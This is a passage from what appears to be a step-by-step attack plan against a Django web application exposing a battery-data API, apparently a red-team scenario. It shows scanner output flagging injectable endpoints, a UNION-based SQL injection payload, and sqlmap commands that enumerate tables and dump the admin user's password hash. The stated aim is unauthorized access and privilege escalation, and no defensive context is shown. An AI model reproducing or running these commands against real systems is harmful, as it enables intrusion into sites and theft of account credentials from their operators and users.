 **Objective:** Identify exploitable vulnerabilities

```bash
# Step 1: Run automated Django scanner (20 min)
python django-exploit-scanner.py --target https://[target].com

# Output:
# [!] Django 2.2.11 detected
# [!] 255 known CVEs
# [!] Admin interface enabled: /admin/
# [!] SQL injection vulnerable endpoints found:
#     - /api/v1/batteries/?material=[INJECTION]
#     - /search/?q=[INJECTION]

# Step 2: Manual testing for SQL injection (20 min)
# Test endpoint: /api/v1/batteries/?material='
# Response: 500 Internal Server Error - SQL syntax error
# Confirmed: SQL injection vulnerability

# Step 3: Test for authentication bypass (20 min)
# Attempt union-based SQL injection:
# /api/v1/batteries/?material=x' UNION SELECT 1,2,3,4,5--
# Success: Database schema revealed
```

**Tools Used:**
- `sqlmap` for SQL injection
- `django-exploit-scanner` (custom tool)
- `nikto` web vulnerability scanner
- Manual testing with Burp Suite

**Findings:**
- ✅ SQL injection in battery search API
- ✅ Admin interface accessible
- ✅ Debug mode enabled (information leakage)
- ✅ No rate limiting (can brute force)

---

#### **Phase 3: Exploitation (2 hours)**

**Objective:** Gain unauthorized access and escalate privileges

##### **Exploit #1: SQL Injection → Database Access (45 min)**

```bash
# Extract admin credentials via SQL injection
sqlmap -u "https://[target].com/api/v1/batteries/?material=x" \
       --dbms=postgresql \
       --tables

# Tables discovered:
# - auth_user (Django user table)
# - battery_materials
# - battery_performance_data

# Dump admin credentials
sqlmap -u "https://[target].com/api/v1/batteries/?material=x" \
       -T auth_user --dump

# Output:
# username: admin
# password: pbkdf2_sha256$150000$[hash]
# is_superuser: true
```
